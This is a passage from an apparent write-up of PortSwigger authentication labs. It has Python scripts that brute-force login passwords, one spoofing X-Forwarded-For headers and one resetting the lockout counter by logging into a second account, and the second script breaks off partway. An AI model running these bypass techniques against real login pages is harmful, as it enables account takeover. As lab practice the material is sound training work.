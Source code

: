 ```python
			num += 1
			headers = {
	 			'X-Forwarded-For':f'192.168.2.{str(num)}'
			}
			r = s.post(url + '/login', proxies=proxies, data=login_data, cookies=cookies, verify=False, headers=headers)	
		if 'Invalid username or password' not in r.text:
			print(f'[+] Valid password for {user}: {trial}')
			sys.exit(1)
```

When `find_password` exits, the lab will be solved.

## Lab 6: Brute Force Protection Bypass

This lab has a similar protection to the previous lab, except that now there is no `X-Forwarded-For` header to use. This time, the lab gave us the valid username of `carlos`.

When I tried 3 times, it blocked me:

![](../../.gitbook/assets/portswigger-auth-writeup-image-14.png)

I tried again, and this time before my third try, I logged into the `wiener` account. This reset the number of tries I had, and I could continue after logging out.

This script was pretty easy to code.


```python
def find_password():
	passwords = open('pass.txt','r')
	state = 1

	for i in passwords:
		trial = i.rstrip('\n')

		trial_data = {
			'username':'carlos',
			'password':trial
		}
		if state == 0 or state == 1:
			r = s.post(url + '/login', proxies=proxies, data=trial_data,verify=False)
			
			if 'Incorrect password' not in r.text:
				print(f'[+] Valid password for carlos: {trial}')
				sys.exit(1)
			else:
				state += 1
				continue
		else:
```